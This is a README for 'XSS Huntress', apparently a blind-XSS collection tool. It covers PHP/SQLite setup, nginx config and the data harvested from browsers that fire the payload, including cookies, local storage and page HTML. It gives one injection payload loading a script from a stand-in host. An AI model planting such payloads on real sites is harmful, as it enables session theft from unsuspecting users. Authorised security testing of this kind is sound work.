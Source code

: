 <h1 align="center">XSS Huntress</h1>

<h4 align="center">My alternative to XSS Hunter for blind XSS.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=7-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
</p>

---

## Features

- reports stored in `sqlite` database
- sends an email notification whenever a payload is fired
- data collected by client that fired payload: 
    - Time
    - URL
    - Referrer
    - IP
    - User Agent
    - Cookies
    - Local Storage
    - HTML of page that fired payload.


## Installation

1. Clone the repository:

```bash
git clone https://github.com/sfttw/xsshuntress.git
```

2. Navigate to the project directory:

```bash
cd xsshuntress
```

3. Install PHPMailer:

```bash
composer require phpmailer/phpmailer
```

4. Update the paths to the PHPMailer classes in `collect.php`:

```php
require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';
```

5. Update the SMTP server settings and email addresses in `collect.php`:

```php
$mail->Host = 'smtp.example.com'; // Specify main and backup SMTP servers
$mail->Username = 'user@example.com'; // SMTP username
$mail->Password = 'secret'; // SMTP password
$mail->setFrom('from@example.com', 'Mailer');
$mail->addAddress('joe@example.net', 'Joe User'); // Add a recipient
```

## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://replacethis.png" />

---

## Configure domain

Using nginx, you can easily configure a vhost like this:

```
server {
        listen 80;
        listen [::]:80;

        server_name example.com;

        root /var/www/example.com;
        index collect.js;

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

        location ^~ /admin {
        allow 1.1.1.1; #EDIT IN YOUR IP ADDRESS 
        index display.php;
        deny all;

        # This will inherit the allow/deny from the outer location
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
                }
        }

    listen [::]:443 ssl; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem; # managed by Certbot

}
```

## Notes

1. The `collect.php` file collects the data from the client and stores it in the SQLite database. It also sends an email notification whenever a new entry is added to the database.

2. The `collect.js` file collects the data from the client and sends it to the server.

3. The `display.php` file displays the data stored in the SQLite database.

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

[MIT](https://choosealicense.com/licenses/mit/)

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

